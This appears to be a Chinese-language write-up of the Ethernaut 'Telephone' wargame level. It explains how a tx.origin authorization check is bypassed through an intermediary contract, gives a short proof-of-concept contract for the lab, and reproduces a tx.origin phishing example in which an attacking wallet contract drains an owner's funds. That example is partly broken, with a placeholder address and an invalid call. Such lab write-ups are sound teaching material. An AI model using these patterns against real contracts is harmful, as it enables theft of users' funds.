

<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令



:::

#### 第四关Telephone  思路与POC

##### 目标: 更改合约的拥有者

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
  //定位flag代码, 问题在tx.origin这个全局变量. 
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

#### 这关实际是想说明tx.origin和msg.sender两个全局变量的区别

##### tx.origin：记录原始交易发起者的地址

##### msg.sender：记录最新一次交易发起者的地址

##### poc思路:point_right:：要使原始交易发起者地址与最近一次交易发起者地址不同只需要加中间层，即中间合约代替我们的钱包地址发起交易

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract fish {
//在中间合约发起交易
    Telephone tel = Telephone(0xe2eB2bd7702D93f7d2Daa5b1362819421D186542);
   function changeOwner(address owner_) public{
        tel.changeOwner(owner_);
   }
}
```

#### 其实使用tx.origin用作鉴权往往能够导致钓鱼攻击 examle :

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // 校验只有合约拥有者才能转账,但是使用tx.origin校验(无法验证是否有恶意合约中间调用)
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}


contract TxAttackWallet {
    address payable owner;
 TxUserWallet txu = TxUserWallet(address....)
    constructor() {
        owner = payable(msg.sender);
    }
    //只要接收到的是TxUserWallet合约的拥有者发起的交易 那么此处调用transfer方法是可以通过校验的
    receive() external payable {
        TxUserWallet.transferTo(owner, msg.sender.balance);
    }
}
```

